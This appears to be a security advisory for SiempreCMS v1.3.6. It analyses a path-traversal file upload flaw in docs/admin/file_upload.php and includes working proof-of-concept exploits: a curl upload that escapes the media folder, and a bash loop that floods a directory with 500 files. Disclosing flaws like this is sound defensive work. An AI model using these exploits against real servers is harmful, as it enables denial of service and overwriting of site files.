# Unauthenticated File Upload Allows Server Flooding – SiempreCMS

- **Type:** Arbitrary File Upload / Resource Exhaustion  
- **Location:** `docs/admin/file_upload.php`  
- **Impact:** An attacker can upload files to arbitrary directories under `../media/`, including hidden module directories. While uploaded files cannot be executed as PHP scripts in this setup, the vulnerability allows **flooding a specific directory with large numbers of files**, potentially exhausting disk space, degrading server performance, or causing denial-of-service conditions.  
- **Product:** *[SiempreCMS v1.3.6](https://github.com/SiempreCMS/SiempreCMS)*
---

## Vulnerable Code Analysis

```php
if (isset($_POST['folder-path']) && substr($_POST['folder-path'], 0, 9) == '../media/') {
	$path = $_POST['folder-path'];
} else {
	$status = 'Bad request in folder path!';
	echo json_encode(array('status' => $status));
	exit();
}

if ($_SERVER['REQUEST_METHOD'] === 'POST' && @is_uploaded_file($_FILES['image']['tmp_name'])) {
	$ext = strtolower(pathinfo($_FILES['image']['name'], PATHINFO_EXTENSION));
	if (in_array($ext, $valid_exts) AND $_FILES['image']['size'] < $max_size) {
		$path = $path . $_FILES['image']['name'];
		if (move_uploaded_file($_FILES['image']['tmp_name'], $path)) {
			$status = 'Image successfully uploaded!';
		} else {
			$status = 'Upload Fail: Unknown error occurred!';
		}
	} else {
		$status = 'Upload Fail: Unsupported file format or It is too large to upload!';
	}
} else {
	$status = 'Upload Fail: File not uploaded!';
}
```

### Analysis
**Folder Path Control:** The code allows uploading files to any directory that begins with ``../media/.`` By manipulating folder-path, attackers can reach hidden or sensitive directories such as ``modules/helloworld/``.

#### **File Type & Size Validation:**

-    Only extensions in ``['jpeg','jpg','png','gif','doc','docx','pdf']`` are allowed.
-    Maximum size is 1600 KB.
-    While this prevents arbitrary PHP execution, it does not prevent mass upload of allowed files.
-    No Filename Sanitization: The uploaded file name is directly concatenated to the path, allowing overwriting existing files.
-    No Execution: Uploaded files cannot be executed as PHP code in this configuration.

---
### Proof of Concept Arbitrary File Upload / Resource Exhaustion (Flooding)
#### Exploit 1: Basic Upload
-    This PoC demonstrate a file upload in other directories.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ curl -X POST \
 -b "PHPSESSID=0518ouv9ppu0c8u5rvkkrcfhgl" \
 -F "folder-path=../media/../../modules/helloworld/" \
 -F "image=@sample.txt.jpeg;filename=shell.txt.jpeg" \
 http://localhost/SiempreCMS/docs/admin/file_upload.php

{"status":"Image successfully uploaded!"}
```

**Evidence:**
</br>
![](./basic.png)


#### Exploit 2: Directory Flooding
-    This PoC demonstrates uploading a large number of files to the vulnerable directory, which can consume server resources and slow down the application.

```bash
# Flood the modules/helloworld/ directory with 500 files
NUM_FILES=500

for i in $(seq 1 $NUM_FILES); do
  # Generate a sample file
  echo "This is test file $i" > sample_$i.txt
  # Rename with allowed extension
  mv sample_$i.txt sample_$i.txt.jpeg
  # Upload file
  curl -s -X POST \
   -b "PHPSESSID=0518ouv9ppu0c8u5rvkkrcfhgl" \
   -F "folder-path=../media/../../modules/helloworld/" \
   -F "image=@sample_$i.txt.jpeg;filename=sample_$i.txt.jpeg" \
   http://localhost/SiempreCMS/docs/admin/file_upload.php
done
```

**Evidence:**
</br>
![](./cli.png)

</br>

![](./gui.png)

---

### Expected Outcome
-    Hundreds of files are uploaded to modules/helloworld/.
-    Disk usage in the directory increases significantly.
-    Server performance may degrade due to the large number of files.
-    Existing files in the directory can be overwritten if the same filename is used.
-    No PHP execution occurs, so it’s not remote code execution.
